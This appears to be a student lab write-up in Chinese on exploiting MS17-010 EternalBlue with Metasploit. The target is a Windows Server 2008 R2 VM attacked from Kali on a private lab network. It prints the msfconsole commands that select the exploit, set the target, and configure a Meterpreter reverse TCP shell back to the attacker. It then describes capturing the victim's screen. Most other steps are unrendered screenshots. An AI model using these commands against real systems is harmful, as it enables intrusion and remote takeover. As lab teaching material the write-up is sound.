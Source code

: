# Metasploit

## 实验环境

Win2008R2   IP:192.168.10.130

![image-20231101191811173](D:\作业\Linux\Metasploit\img\1.png)

Kali  IP:192.168.10.128

![image-20231101185646691](D:\作业\Linux\Metasploit\img\2.png)

## 实验步骤

#### 启用Metasploit

启动postgresql服务

![image-20231101175018636](D:\作业\Linux\Metasploit\img\3.png)

搜索ms17_010找到辅助模块

![image-20231101175617900](D:\作业\Linux\Metasploit\img\5.png)

![image-20231101175754858](D:\作业\Linux\Metasploit\img\6.png)

![image-20231101192004728](D:\作业\Linux\Metasploit\img\7.png)

渗透扫描windows的samba服务

```basic
msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
```

设置被渗透IP

```basic
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.10.130
rhosts => 192.168.10.130（Win2008R2 IP）
```

设置payload

```basic
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

设置本机的IP

```basic
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.10.128
lhost => 192.168.10.128  （Kali的IP地址）
```

![image-20231101192851510](D:\作业\Linux\Metasploit\img\8.png)

![image-20231101192930283](D:\作业\Linux\Metasploit\img\9.png)

查看获取的权限

![image-20231101193045703](D:\作业\Linux\Metasploit\img\10.png)

截图被渗透主机的屏幕

![image-20231101193155047](D:\作业\Linux\Metasploit\img\11.png)

在文件夹中找到此图片打开

![image-20231101193535426](C:\Users\tjw26\AppData\Roaming\Typora\typora-user-images\image-20231101193535426.png)